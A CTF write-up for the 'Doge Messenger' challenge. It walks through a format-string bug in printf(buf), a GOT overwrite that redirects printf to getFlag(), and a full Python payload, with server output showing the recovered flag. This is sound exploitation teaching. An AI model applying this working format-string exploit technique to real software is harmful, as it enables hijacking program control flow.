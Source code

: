 ```yaml
---
title: "Doge Messenger (200 points) [Security Mooc CTF]"
date: 2017-07-06 00:00:06 +0530
categories:
  - Write-ups
header:
  teaser: "https://i.imgur.com/oucceD8.png"
tags:
  - securitymooc
excerpt: ""
---
```

Here's the [file link](/assets/write-ups/securitymoocctf/doge).
Here's the [C Source](/assets/write-ups/securitymoocctf/doge.c).


```
We have lost control on execution sequence of this program, a controlled execution were
allowing us to get the master key which one can use to login to anyone's tinder :). Here
is the binary and here is the source code. Use nc 52.7.95.224 8040 to connect to server.
```

Inspecting the source we have a function to get the flag:
{% highlight c%}
void getFlag()
{
	system("/bin/cat flag.txt\n");
}
{% endhighlight %}
But we don't have any calls to it.
Since all buffers and operations have fixed size thus, no buffer-overflow.

We notice at `line 62` that there's a `printf(buf)` (with a more-than-sufficient size of 256). So we can write at any address exploiting this format string vulnerability. Trying the string `aaaa%X.%X.%X.%X.%X.%X.%X.%X.%X.%X.%X...` We see that that our input can be found at the 7th position (Notice the toggled case of 'aaaa').

I fired up gdb and checked `printf()`'s [disassembly](/assets/write-ups/securitymoocctf/doge.asm). Observe that it reads a jump using a value as an address from Data Segment (GOT):
{% highlight nasm%}
0x8048580 <printf@plt>:	jmp    DWORD PTR ds:0x804b010
{% endhighlight %}

So I chose the location `0x804b010`.
I got `getFlag()`'s address using `nm doge | grep getFlag` which gives `0x0804878b` as the value to write.

Our objective is to write exactly `0x0804878b` at location `0x804b010`.
Notice since I was writing using `printf` for the first time, I tried writing byte-by-byte instead of the usual 2 byte method, using python:
{% highlight python linenos %}
import struct
s='Kunal\n2\n'			#Need second call to printf to jump to getFlag()
s+=struct.pack('I',0x804b010) + 'a'*4
s+=struct.pack('I',0x804b011) + 'a'*4
s+=struct.pack('I',0x804b012) + 'a'*4
s+=struct.pack('I',0x804b013)
ff="%X"*5+"%" + str(0x4d + 0x8)
ff+= "X"+"%N%"+str(0x187-0x93+0x8)+"X%N%"
ff+= str(0x204-0x8f+0x8)+"X%N%"
ff+= str(0x108-0xc+0x8) + "X%N"
s+=ff
# with open("inp",'w') as f:
#	f.write(s)			#For use with gdb
print s					#For use with nc/debugging
{% endhighlight %}

One thing to take care of is that after the input, the program toggles the case of all the alphabets so, we had to be careful to toggle them intitally to nullify that effect (We fortunately didn't have any alphabets in any of the address bytes).

Now trying this input:
```console
$ python input.py | nc 52.7.95.224 8040 
                   ▄              ▄
                  ▌▒█           ▄▀▒▌
                  ▌▒▒█        ▄▀▒▒▒▐
                 ▐▄▀▒▒▀▀▀▀▄▄▄▀▒▒▒▒▒▐
               ▄▄▀▒░▒▒▒▒▒▒▒▒▒█▒▒▄█▒▐
             ▄▀▒▒▒░░░▒▒▒░░░▒▒▒▀██▀▒▌
            ▐▒▒▒▄▄▒▒▒▒░░░▒▒▒▒▒▒▒▀▄▒▒▌
            ▌░░▌█▀▒▒▒▒▒▄▀█▄▒▒▒▒▒▒▒█▒▐
           ▐░░░▒▒▒▒▒▒▒▒▌██▀▒▒░░░▒▒▒▀▄▌
           ▌░▒▄██▄▒▒▒▒▒▒▒▒▒░░░░░░▒▒▒▒▌
          ▌▒▀▐▄█▄█▌▄░▀▒▒░░░░░░░░░░▒▒▒▐
          ▐▒▒▐▀▐▀▒░▄▄▒▄▒▒▒▒▒▒░▒░▒░▒▒▒▒▌
          ▐▒▒▒▀▀▄▄▒▒▒▄▒▒▒▒▒▒▒▒░▒░▒░▒▒▐
           ▌▒▒▒▒▒▒▀▀▀▒▒▒▒▒▒░▒░▒░▒░▒▒▒▌
           ▐▒▒▒▒▒▒▒▒▒▒▒▒▒▒░▒░▒░▒▒▄▒▒▐
            ▀▄▒▒▒▒▒▒▒▒▒▒▒░▒░▒░▒▄▒▒▒▒▌
              ▀▄▒▒▒▒▒▒▒▒▒▒▄▄▄▀▒▒▒▒▄▀
                ▀▄▄▄▄▄▄▀▀▀▒▒▒▒▒▄▄▀

         D O G E   M E S S E N G E R
         Send your message to doge!!

Your name: 
How many messages do you want to send? 
Your message: 
Doge's response: <Garbage>
...
flag{ryMiLX9dTYbbeznqUsFAC3zMP4dsiorb}
flag{ryMiLX9dTYbbeznqUsFAC3zMP4dsiorb}
flag{ryMiLX9dTYbbeznqUsFAC3zMP4dsiorb}
```

